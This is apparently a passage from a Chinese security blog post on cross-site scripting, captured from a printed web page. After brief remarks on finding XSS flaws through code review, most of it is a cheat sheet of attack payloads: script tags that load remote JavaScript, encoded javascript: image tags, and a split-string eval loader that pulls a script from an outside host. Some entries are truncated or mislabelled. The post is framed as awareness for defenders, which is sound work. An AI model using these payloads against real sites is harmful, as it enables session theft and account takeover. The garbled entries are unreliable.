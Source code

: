 触发方式为：`http://www.a.com/xss/domxss.html#alert(1)`

## 网站是否会遭受XSS攻击？

XSS漏洞很难被识别或从一个web应用程序删除。发现缺陷的最好方法是进行**代码的安全审查**和搜索所有**从HTTP请求输入且有可能使其输出到页面**的代码，并对这些代码进行相应的处理。

注意,可以使用各种不同的HTML标记传输恶意JavaScript。Nessus Nikto,和其他一些可用的工具可以帮助扫描一个网站的这些缺陷,但却只是完成表面功夫。如果一个网站的某一部分是脆弱的,那么极有可能还有其他问题。


## 防御XSS的具体措施

将在下一篇博客中写出


## XSS攻击方式清单

下面的清单是网上比较流行的攻击方案。
我们从中可以看到多种多样的攻击方式，因此要防御XSS攻击需要考虑很多的情况。


```text
(1)普通的XSS JavaScript注入
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
(2)IMG标签XSS使用JavaScript命令
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>
(3)IMG标签无分号无引号
<IMG SRC=javascript:alert(‘XSS’)>
(4)IMG标签大小写不敏感
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>
(5)HTML编码(必须有分号)
<IMG SRC=javascript:alert(“XSS”)>
(6)修正缺陷IMG标签
<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>
(7)formCharCode标签(计算器)
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
(8)UTF-8的Unicode编码(计算器)
<IMG SRC=jav..省略..S')>
(9)7位的UTF-8的Unicode编码是没有分号的(计算器)
<IMG SRC=jav..省略..S')>
(10)十六进制编码也是没有分号(计算器)
<IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>
(11)嵌入式标签,将Javascript分开
<IMG SRC=”jav ascript:alert(‘XSS’);”>
(12)嵌入式编码标签,将Javascript分开
<IMG SRC=”jav ascript:alert(‘XSS’);”>
(13)嵌入式换行符
<IMG SRC=”jav ascript:alert(‘XSS’);”>
(14)嵌入式回车
<IMG SRC=”jav ascript:alert(‘XSS’);”>
(15)嵌入式多行注入JavaScript,这是XSS极端的例子
<IMG SRC=”javascript:alert(‘XSS‘)”>
(16)解决限制字符(要求同页面)
<script>z=’document.’</script>
<script>z=z+’write(“‘</script>
<script>z=z+’<script’</script>
<script>z=z+’ src=ht’</script>
<script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script>
<script>z=z+’.net/1.’</script>
<script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script>
<script>eval_r(z)</script>
(17)空字符\0
https://www.t00ls.net/viewthread.php?action=printable&tid=15267 2/6
```